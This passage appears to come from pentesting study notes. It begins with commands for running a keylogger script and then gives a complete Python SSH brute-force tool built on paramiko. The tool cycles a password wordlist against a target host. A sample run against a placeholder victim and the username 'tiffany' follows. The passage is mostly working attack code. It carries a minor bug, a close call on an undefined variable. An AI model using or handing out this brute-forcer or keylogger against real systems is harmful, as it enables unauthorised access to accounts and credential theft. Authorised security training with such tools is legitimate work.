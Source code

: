 **Kali**

```
pip3 install keyboard
python3.9 keylogger.py
```

## SSH Brute Forcing

**sshbruteforce.py**

```
import paramiko
import sys
import os

target = str(input('Please enter target IP address: '))
username = str(input('Please enter username to bruteforce: '))
password_file = str(input('Please enter location of the password file: '))

def ssh_connect(password, code=0):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    try:
        ssh.connect(target, port=22, username=username, password=password)
    except paramiko.AuthenticationException:
        code = 1
    ssh.close()
    return code

with open(password_file, 'r') as file:
    for line in file.readlines():
        password = line.strip()
        
        try:
            response = ssh_connect(password)

            if response == 0:
                 print('password found: '+ password)
                 exit(0)
            elif response == 1: 
                print('no luck')
        except Exception as e:
            print(e)
        pass

input_file.close()
```

**Kali**

<pre><code>python3 sshbruteforce.py 
<strong>   Please enter target IP address: $VICTIM
</strong>   Please enter username to bruteforce: tiffany
   Please enter location of the password file: /usr/share/wordlists/PythonForPentesters/wordlist2.txt
</code></pre>
